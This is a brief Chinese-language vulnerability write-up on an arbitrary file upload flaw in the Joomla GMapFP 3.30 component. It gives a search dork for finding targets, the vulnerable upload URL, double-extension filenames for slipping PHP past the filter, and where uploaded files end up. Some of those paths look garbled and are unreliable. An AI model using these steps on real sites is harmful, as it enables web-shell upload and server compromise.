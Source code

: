 # Joomla! component GMapFP 3.30 任意文件上传

> 原文：[https://www.zhihuifly.com/t/topic/2996](https://www.zhihuifly.com/t/topic/2996)

# Joomla component GMapFP 3.30 任意文件上传

## 一、漏洞简介

关键字:inurl:''com_gmapfp''

## 二、漏洞影响

Joomla Gmapfp Components 3.x

## 三、复现过程

```
http://www.0-sec.org/index.php?option=comgmapfp&controller=editlieux&tmpl=component&task=upload_image 
```

```
file.php.png , file2.php.jpeg , file3.html.jpg ,file3.txt.jpg 
```

目录文件路径

```
http://www.0-sec.oimg/gmapfp/file.php 
```

```
http://www.0-sec.oimg/gmapfp/file.php.png 
```